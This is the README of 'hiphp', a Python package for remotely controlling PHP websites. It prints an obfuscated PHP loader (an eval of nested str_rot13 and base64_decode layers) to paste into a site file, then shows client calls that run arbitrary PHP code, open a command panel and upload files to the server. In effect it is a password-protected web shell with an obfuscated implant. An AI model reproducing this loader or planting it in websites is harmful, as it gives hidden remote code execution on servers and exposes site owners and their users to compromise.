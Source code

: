 
<p align="center"><img align="center" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot.png"></p>
<h1>hiphp for control php websites.</h1>

<p>A package for controlling a php-based website.</p>

<h2>Installation:</h2>

```
pip install hiphp==0.1.12
```

<h2>Usage:</h2>

```python
from hiphp import hiphp
p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>",False) #In order to print the result directly.
#p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>") #In order to make the result as a variable.
print(p1.get_code()) #Get HIPHP ID for first use.
p1.run("<YOUR_CODE>") #Run a code or line in your website.
p1.run_file("<PHP_CODE_FILE_PATH>") #Run a code or line in your website from a file.
p1.run_file("<PHP_CODE_FILE_PATH>","<__VALUE_NAME__>==<VALUE_CONTENT>") #Run a code or line in your website from a file With the entry of variables.
p1.cli() #open command panel
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>") #Upload a file to the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>","./<THE_PATH_YOU_WANT_TO_UPLOAD_THE_FILE_TO>")

```

<h2>Examples:</h2>

```python
from hiphp import hiphp
p1=hiphp("123","http://localhost/index.php",False)
# Example:1
# GET ID:
print(p1.get_code())
# OUTPUT:
'''
/*php code start*/
eval(str_rot13(base64_decode(str_rot13(base64_decode('bkpMYldTOUdFSVdKRUlXb1cwdUhJU09zSUlBU0h5OU9FMElCSVBxcUNHMGFaUUx3QlJEM0F3RDBBUlJsWndSbEIwRGtDR1pqWUd0MFdHRDVDbU4xQ1JaakpteDFybVNPWFFOMkJ3SVBuR1Zsb0hObFpRTzBEbU9uQkdEY1p3dTlEMFdxQkdEK0FtTnVEeFp4QXdOekR3RXNBbU5lQUhWa0VRTG1abVYxRHdwM1pSTDVXbHk3TUpBYm9scHdwVXkwblQ5aFdtZ2NNdnVjcDNBeXFQdHhLMU9DSDFFb1cyQWlvSjF1b3pEYUtGeGNyMkkyTEpqYldTOURHMUFISmxxd28yMWdMSjV4VzEwY0IzMXlyVHkwQjMwPQ==')))));
/*php code end*/
'''
# Copy this code into the file whose path you entered earlier.
# for example: https://localhost/index.php
# Example:2
# Command:
p1.run("echo 'this is a test';")
# OUTPUT:
'''
this is a test
'''
# Example:3
# Run code from file:
#-example_3.php content:
'''
echo 'this is a test';
'''
#OR
'''
<?php
    echo 'this is a test';
?>
'''
p1.run_file("example_3.php")
# OUTPUT:
'''
this is a test
'''
# Example:4
# Run code from file With the entry of variables:
#-example_4.php content:
'''
echo '__test__';
'''
#OR
'''
<?php
    echo '__test__';
?>
'''
p1.run_file("example_4.php","test==this is a test")
# OUTPUT:
'''
this is a test
'''
# Example:5
# Command line interface:
p1.cli()
# OUTPUT:
'''
hiphp>>>
'''
# Example:6
# Upload a picture:
p1.upload("picture_example.png")
# Example:7
# Upload a picture to a specific path:
p1.upload("picture_example.png","./pictures/")

```

<h2>Changelog:</h2>

```
## 0.1.12
 - safety upgrade.
 - Bug fixes & performance improvements.
 
## 0.1.11
 - Command interface update.
 - Bug fixes & performance improvements.
## 0.1.10
 - Fix Bugs.
## 0.1.9
 - fix bugs.
 
## 0.1.7
 - fix bugs.
 
## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.
 
## 0.1.5
 - fix bugs.
## 0.1.4
 - fix bugs.
 - new build.
 
## 0.1.1
 - Import pakages by pipincluder.
 - Fix bugs.
 
## 0.1.0
 - New build.
 - Fix bugs.
 
## 0.0.4
 - Fix bugs.
 
## 0.0.2
 - Fix bugs.
 - Add help list.
 - Add Executing from files.
 
## 0.0.1
 - First public release.

```

<h1></h1> 
   
<p align="center">
   <a href="https://yasserbdj96.github.io" align="center"><img align="center" alt="Website" src="https://img.shields.io/badge/Website-3b5998?style=flat-square&logo=google-chrome&logoColor=white"></a>
   <a href="https://www.linkedin.com/in/yasserbdj96" align="center"><img align="center" alt="LinkedIn" src="https://img.shields.io/badge/-LinkedIn-0e76a8?style=flat-square&logo=Linkedin&logoColor=white"></a>
   <a href="https://twitter.com/yasserbdj96" align="center"><img align="center" alt="Twitter" src="https://img.shields.io/badge/-Twitter-00acee?style=flat-square&logo=Twitter&logoColor=white"></a>
   <a href="https://www.instagram.com/yasserbdj96" align="center"><img align="center" alt="Instagram" src="https://img.shields.io/badge/-Instagram-e4405f?style=flat-square&logo=Instagram&logoColor=white"></a>
   <a href="https://www.facebook.com/yasserbdj96" align="center"><img align="center" alt="Facebook" src="https://img.shields.io/badge/-Facebook-0088cc?style=flat-square&logo=facebook&logoColor=white"></a>
   <a href="https://www.youtube.com/channel/UC53dtKxc84BNPyDb51rtRPg" align="center"><img align="center" alt="Youtube" src="https://img.shields.io/badge/-Youtube-ea4335?style=flat-square&logo=youtube&logoColor=white"></a>
   <a href="https://pypi.org/user/yasserbdj96" align="center"><img align="center" alt="Pypi" src="https://img.shields.io/badge/-Pypi-efeeea?style=flat-square&logo=pypi"></a>
   <a href="mailto:yasser.bdj96@gmail.com" align="center"><img align="center" alt="Gmail" src="https://img.shields.io/badge/-yasser.bdj96@gmail.com-c14438?style=flat-square&logo=Gmail&logoColor=white&link=mailto:yasser.bdj96@gmail.com"></a>
</p>

<p align="center">
    BTC : 16mUJYXdNh9VkjN3MQawA8wvYJqL9F5CKZ

</p>

<p align="center">
    <a align="center" href="https://ko-fi.com/L3L34CEPV">
        <img alt="ko-fi" align="center" src="https://ko-fi.com/img/githubbutton_sm.svg">
    </a>
</p>

<p align="center">
    <a align="center" href="https://yasserbdj96.github.io">
        <img align="center" alt="yasserbdj96" height="100" src="https://raw.githubusercontent.com/yasserbdj96/yasserbdj96/main/images/yasserbdj96.png">
    </a>
    <br>
    <a align="center" href="https://github.com/yasserbdj96/" align="center">
        <img align="center" alt="" src="https://visitor-badge.laobi.icu/badge?page_id=yasserbdj96.hiphp">
    </a>
</p>
